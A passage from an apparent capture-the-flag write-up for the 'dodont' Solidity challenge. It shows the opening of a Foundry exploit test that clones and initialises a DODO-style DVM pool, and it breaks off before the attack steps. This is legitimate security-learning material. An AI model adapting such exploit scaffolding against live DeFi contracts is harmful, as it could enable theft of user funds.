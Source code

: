 ```solidity
            )
        );
        // ==========================================================================
    }
```

**Exp**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/dodont/Challenge.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface CloneFactoryLike {
    function clone(address) external returns (address);
}

interface DVMLike {
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;

    function buyShares(address) external;
    function flashLoan(uint256 baseAmount, uint256 quoteAmount, address assetTo, bytes calldata data) external;
    function _QUOTE_TOKEN_() external view returns (address);
}

contract QuoteToken is ERC20 {
    constructor() ERC20("Quote Token", "QT") {
        _mint(msg.sender, 1_000_000 ether);
    }
}

contract DoDontTest is Test {
    CloneFactoryLike private immutable CLONE_FACTORY = CloneFactoryLike(0x5E5a7b76462E4BdF83Aa98795644281BdbA80B88);
    address private immutable DVM_TEMPLATE = 0x2BBD66fC4898242BDBD2583BBe1d76E8b8f71445;

    IERC20 private immutable WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    QuoteToken quoteToken;
    DVMLike dvm;
    Challenge public challenge;

    function setUp() public {
        payable(address(WETH)).call{value: 100 ether}(hex"");

        quoteToken = new QuoteToken();

        dvm = DVMLike(CLONE_FACTORY.clone(DVM_TEMPLATE));
        dvm.init(
            address(this),
            address(WETH),
            address(quoteToken),
```